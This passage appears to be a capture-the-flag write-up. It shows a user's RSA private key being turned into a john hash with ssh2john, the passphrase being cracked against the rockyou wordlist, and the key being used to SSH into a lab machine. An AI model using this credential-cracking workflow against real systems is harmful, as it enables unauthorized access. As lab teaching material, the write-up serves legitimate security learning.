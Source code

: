 From this page, we can copy this RSA private key for the user named 'james' and use it further to gain SSH access to the box. But the issue here is that we can't use this RSA private key directly to gain access. Also, it is written in the 'Administrator area' that we need to crack the passphrase associated with this file. To do so, `johntheripper` can be used but again it can't directly extract the passphrase. We first need to convert it to a form that john can understand and for that, we can use `ssh2john.py`.
```
tester@kali:~/Downloads$ python /usr/share/john/ssh2john.py james_rsa > crack
```

Now, this crack file can be used with `john` to obtain the passphrase.
```
tester@kali:~/Downloads$ john --wordlist=/usr/share/wordlists/rockyou.txt crack
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXXXX          (james)
1g 0:00:00:04 DONE (2020-07-19 20:44) 0.2433g/s 3489Kp/s 3489Kc/s 3489KC/sa6_123..*7¡Vamos!
Session completed
```
And we get the passphrase for user 'james'. We can now use the RSA private key along with this passphrase to get SSH access to the box:

```
tester@kali:~/Downloads$ ssh -i james_rsa james@10.10.129.106
The authenticity of host '10.10.129.106 (10.10.129.106)' can't be established.
ECDSA key fingerprint is SHA256:4P0PNh/u8bKjshfc6DBYwWnjk1Txh5laY/WbVPrCUdY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.129.106' (ECDSA) to the list of known hosts.
Enter passphrase for key 'james_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jul 19 15:19:04 UTC 2020

  System load:  0.0                Processes:           89
  Usage of /:   22.9% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.129.106
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
```
